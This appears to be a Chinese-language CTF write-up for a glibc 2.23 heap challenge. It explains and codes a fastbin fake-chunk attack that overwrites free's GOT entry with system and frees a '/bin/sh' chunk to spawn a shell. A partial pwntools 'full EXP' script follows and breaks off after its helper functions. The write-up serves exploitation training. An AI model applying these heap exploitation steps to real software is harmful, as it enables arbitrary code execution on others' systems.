    ```python
   ```

   ![image-20240713144736739](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131447851.png)

3. 再heaplist前面伪造一个chunk，用来覆盖heaplist中的指针，实现任意地址写，进而覆盖free函数的got表指向system函数的地址：

   ```python
   chunk_addr = 0x60209d
   add(0x68)   #4 
   free(4)		#修改其fd指针
   payload3 = p64(0)*3+p64(0x71)+p64(chunk_addr)
   edit(3,payload3)
   
   add(0x68)   #4
   add(0x68)   #6 申请得到伪造的chunk
   #溢出覆盖掉heaplist[0]中的指针
   payload6 = b"a"*19+p64(elf.got["free"])
   edit(6,payload6)
   
   #实现任意地址写，向free函数的got表中写入system函数地址
   payload0 = p64(system_addr)
   edit(0,payload0)
   ```

   ![image-20240713145227012](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131453909.png)

   ![image-20240713145728402](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131457813.png)

4. 最后写入 "/bin/sh"再free就能获得shell：

   ```python
   payload3 = b"/bin/sh\x00"
   edit(3,payload3)
   free(3)
   ```

5. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   # p = remote("node4.anna.nssctf.cn",28074)
   p = process("./pwn")
   libc = ELF('./libc-2.23.so')
   elf = ELF("./pwn")
   
   
   def add(size):
       p.sendlineafter(b':','1')
       p.sendlineafter(b':',str(size))
       # p.sendlineafter(b':',content)
   
   def edit(index, content):
       p.sendlineafter(b':','4')
       p.sendlineafter(b':',str(index).encode())
       # p.sendlineafter(':',str(len(content)))
       p.sendafter(b'content',content)
   
   def show(index):
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b'show',str(index).encode())
   
   ```
